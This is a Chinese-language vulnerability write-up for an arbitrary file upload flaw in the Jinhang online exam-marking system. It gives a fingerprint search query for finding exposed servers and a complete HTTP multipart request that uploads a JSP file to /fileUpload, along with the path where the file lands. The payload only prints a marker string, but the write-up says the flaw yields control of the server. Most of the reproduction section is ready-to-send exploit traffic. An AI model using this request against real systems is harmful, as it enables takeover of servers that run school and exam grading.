

# 一、漏洞简介
衡水金航计算机科技有限公司是一家长期致力于图像标记识别采集技术及信息管理系统的软件企业。金航网上阅卷系统：可以广泛地应用于高考、中考、教育局组织的学校联考、各类学校自组织考试、各种行业考试、职称考试等。衡水金航计算机科技有限公司金航网上阅卷系统 fileUpload 任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 金航网上阅卷系统

# 三、资产测绘
+ hunter`web.body="js/insteadSelect/jquery.insteadSelect.css"`
+ 特征



# 四、漏洞复现
```java
POST /fileUpload HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Content-Type: multipart/form-data; boundary=00content0boundary00
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 351
Connection: close

--00content0boundary00
Content-Disposition: form-data; name="upload"; filename="poc.jsp"
Content-Type: application/pdf

<%out.println("1234");%>
--00content0boundary00
Content-Disposition: form-data; name="uploadContentType"

pdf
--00content0boundary00
Content-Disposition: form-data; name="uploadFileName"

1.jsp
--00content0boundary00--
```


上传文件位置

```java
/upload/poc.jsp
```


